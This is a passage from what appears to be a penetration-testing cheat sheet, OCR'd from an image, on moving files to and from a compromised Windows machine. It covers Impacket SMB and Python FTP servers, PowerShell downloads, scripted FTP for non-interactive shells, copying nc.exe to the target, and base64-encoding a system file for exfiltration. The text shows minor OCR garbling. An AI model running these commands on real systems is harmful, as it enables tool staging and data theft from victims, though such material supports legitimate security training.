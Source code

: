 To transfer files in this scenario, we can set a username and password using our Impacket SMB server and mount the SMB server on our windows target machine:

**Create the SMB Server with a Username and Password**
```bash
$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

**Mount the SMB Server with Username and Password**
```bash
C:\home> net use n: \\192.168.220.133\share /user:test test

C:\home> copy n:\nc.ex
```

`Note: You can also mount the SMB server if you receive an error when you use copy filename \\IP\sharename.

## FTP Downloads
**Setting up a Python3 FTP Server**
```bash
$ sudo python3 -m pyftpdlib --port 21
```

**Transfering Files from an FTP Server Using PowerShell**
```bash
PS > (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

**Create a Command File for the FTP Client and Download the Target File**
```bash
C:\home> echo open 192.168.49.128 > ftpcommand.txt
C:\home> echo USER anonymous >> ftpcommand.txt
C:\home> echo binary >> ftpcommand.txt
C:\home> echo GET file.txt >> ftpcommand.txt
C:\home> echo bye >> ftpcommand.txt
C:\home> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye
```

# Target to Attack
## PowerShell Base64 Encode & Decode
**Encode File Using PowerShell**
```bash
PS > [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))


PS > Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
